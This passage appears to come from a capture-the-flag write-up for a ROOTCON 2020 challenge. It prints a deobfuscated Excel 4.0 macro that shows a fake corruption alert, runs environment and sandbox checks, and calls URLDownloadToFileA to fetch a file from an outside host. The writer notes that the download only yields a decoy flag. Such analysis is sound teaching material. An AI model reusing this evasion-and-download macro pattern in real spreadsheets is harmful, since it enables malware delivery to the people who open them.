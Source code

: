 Rewriting all characters gives the following commands:  

```
=ALERT("The workbook cannot be opened or repaired by Microsoft Excel because it's corrupt.",2)  
=IF(GET.WORKSPACE(13)<770, CLOSE(FALSE),)  
=IF(GET.WORKSPACE(14)<381, CLOSE(FALSE),)  
=IF(GET.WORKSPACE(19),,CLOSE(FALSE))  
=IF(GET.WORKSPACE(42),,CLOSE(FALSE))  
=IF(ISNUMBER(SEARCH("Windows",GET.WORKSPACE(1))), ,CLOSE(FALSE))  
=CALL("urlmon","URLDownloadToFileA","JJCCJJ",0,"http://easteregg.rootcon.net/AZfzv7ckfbxj2Q6X/GC3Z543PZQL2buV6","c:\Users\Public\flag.txt",0,0)
=CLOSE(FALSE)  
```

The 7th instruction shows that it downloads the flag from this URL (http://easteregg.rootcon.net/AZfzv7ckfbxj2Q6X/GC3Z543PZQL2buV6), but downloading this file just gives this fake flag.  

![](/assets/images/ctf/rootcon_easter_egg_2020/reality4.jpg)  

Backtracking to the sheet, it seems that there is a hidden column (between C13 & C15). 
